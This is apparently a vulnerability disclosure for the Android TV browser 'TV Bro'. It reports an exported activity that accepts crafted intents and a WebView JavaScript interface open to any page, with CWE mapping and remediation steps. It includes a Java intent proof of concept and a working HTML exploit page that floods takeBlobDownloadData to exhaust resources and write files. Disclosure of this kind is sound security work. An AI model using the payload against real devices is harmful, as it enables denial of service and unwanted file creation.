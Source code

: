 
---

## Vulnerability Report: `com.phlox.tvwebbrowser` 'TV Bro' Version <= 2.0.0

### Vulnerability: JavaScript Code Injection via Intent Handlers

---

#### **Summary**:
The `com.phlox.tvwebbrowser` application improperly handles external intents, potentially leading to Arbitrary Code Execution (ACE) via crafted URIs.

#### **Severity**:
🔴 High

#### **Details**:
The exposed `com.phlox.tvwebbrowser.activity.main.MainActivity` allows external applications to execute arbitrary JavaScript within its context. Specifically, a malicious app can invoke this activity with a specially crafted URI that contains JavaScript, leading to unwanted code execution.

##### Proof of Concept:

![image](https://github.com/actuator/com.phlox.tvwebbrowser/blob/main/tvwebpoc.gif)

```java
Intent intent = new Intent(Intent.ACTION_VIEW);
intent.setComponent(new ComponentName("com.phlox.tvwebbrowser", "com.phlox.tvwebbrowser.activity.main.MainActivity"));
intent.setData(Uri.parse("https://windows96.net"));
startActivity(intent);
```

#### **Common Weakness Enumeration (CWE)**:
- [CWE-94](https://cwe.mitre.org/data/definitions/94.html): Improper Control of Generation of Code ('Code Injection')

#### **Remediation Steps**:
1. **Restrict External Intent Handling**: In `AndroidManifest.xml`, ensure the `exported` attribute for the affected activity is set to `false`.
2. **URI Sanitization**: Implement a strict validation and sanitation mechanism for URIs before processing.


#### Addendum
---

The com.phlox.tvwebbrowser application exposes a JavaScript interface, namely TVBro, to its WebView component. This interface provides powerful methods that can be invoked by any web page loaded into the WebView. Such unrestricted access can lead to a variety of security risks, such as arbitrary file downloads, resource exhaustion, and potentially other undisclosed impacts.

#### Impact:

#### Resource Exhaustion:
An attacker can generate an extremely large file using the takeBlobDownloadData method which could lead to resource exhaustion and potential denial-of-service scenarios.

#### Arbitrary File Creation: 
The method allows for the creation of files with arbitrary content on the user's device without user consent.
Potential for other Exploits: Without a detailed assessment of all methods within the TVBro interface, there may be other exploitable functionalities.

#### Proof of Concept:
Below is a sample payload that exploits the vulnerability by attempting to create an extremely large file:

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Exploit Page</title>
</head>
<body>
    <script>
        // Generate a large random base64 string 
        function generateRandomBase64String(length) {
            let characters = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/';
            let result = '';
            for (let i = 0; i < length; i++) {
                result += characters.charAt(Math.floor(Math.random() * characters.length));
            }
            return result;
        }

        // Check if the JS interface method exists
        if (window.TVBro && typeof window.TVBro.takeBlobDownloadData === 'function') {
            // Send an extremely large base64 data to the method
            window.TVBro.takeBlobDownloadData(generateRandomBase64String(50005000000050000000500000005000000050000000500000000000), 'exploit.txt', 'text/plain');
        }
    </script>
</body>
</html>
```html
